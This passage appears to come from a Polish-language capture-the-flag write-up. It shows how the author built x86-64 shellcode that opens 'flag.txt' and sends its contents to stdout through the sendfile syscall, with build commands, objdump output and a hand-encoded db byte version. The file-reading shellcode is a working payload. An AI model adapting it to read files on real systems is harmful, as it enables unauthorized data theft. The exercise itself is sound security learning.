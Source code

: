 ```asm
;    1017:       48 c7 c0 28 00 00 00    mov    rax,0x28
;    101e:       bf 01 00 00 00          mov    edi,0x1
;    1023:       be 03 00 00 00          mov    esi,0x3
;    1028:       49 c7 c2 00 01 00 00    mov    r10,0x100
;    102f:       0f 05                   syscall
```
Niestety po kompilacji:
{: .text-justify}
```bash
nasm -f elf64 -o payload.o payload.asm
ld -shared -o payload.so payload.o
```
Tak to wygląda:
```bash
objdump -d -M intel payload
```
```asm
  401000:       6a 00                   push   0x0
  401002:       48 b8 66 6c 61 67 2e    movabs rax,0x7478742e67616c66
  401009:       74 78 74 
  40100c:       50                      push   rax
  40100d:       b8 02 00 00 00          mov    eax,0x2
  401012:       48 89 e7                mov    rdi,rsp
  401015:       0f 05                   syscall
  401017:       b8 28 00 00 00          mov    eax,0x28
  40101c:       bf 01 00 00 00          mov    edi,0x1
  401021:       be 03 00 00 00          mov    esi,0x3
  401026:       41 ba 00 01 00 00       mov    r10d,0x100
  40102c:       0f 05                   syscall
```

`Nasm` zamienił `mov r10,0x100` na `mov r10d,0x100`. W rezultacie zmieniły się mnemoniki. Zamiast `49 c7 c2 00 01 00 00` pojawiło się `41 ba 00 01 00 00`. Ponieważ było to kilka instrukcji i mnemoników, przepisałem je jako `db`.
{: .text-justify}
```asm
section .data
    
section .text
    global _start

_start:
db 0x6a ,0x00               ; push 0
db 0x48 ,0xB8 ,0x66 ,0x6C ,0x61 ,0x67 ,0x2E ,0x74 ,0x78 ,0x74 ;mov rax, 0x7478742E67616C66 ; flag.txt
db 0x50                     ;push rax    
db 0xb8, 0x2,0x00,0x00,0x00 ; mov rax, 2              
db 0x48, 0x89 ,0xe7         ;mov rdi, rsp
db 0x0f, 0x05               ; syscall                   


db 0x48, 0xc7, 0xc0, 0x28,0x00,0x00,0x00  ; mov rax, 0x28
db 0xbf, 0x01, 0x00,0x00,0x00             ; mov rdi, 1 
db 0xbe, 0x03, 0x00, 0x00, 0x00           ; mov si, 03 
db 0x49, 0xc7, 0xc2,0x00,0x01,0x00,0x00   ; mov r10, 10
db 0x0f, 0x05                             ; syscall                    
```
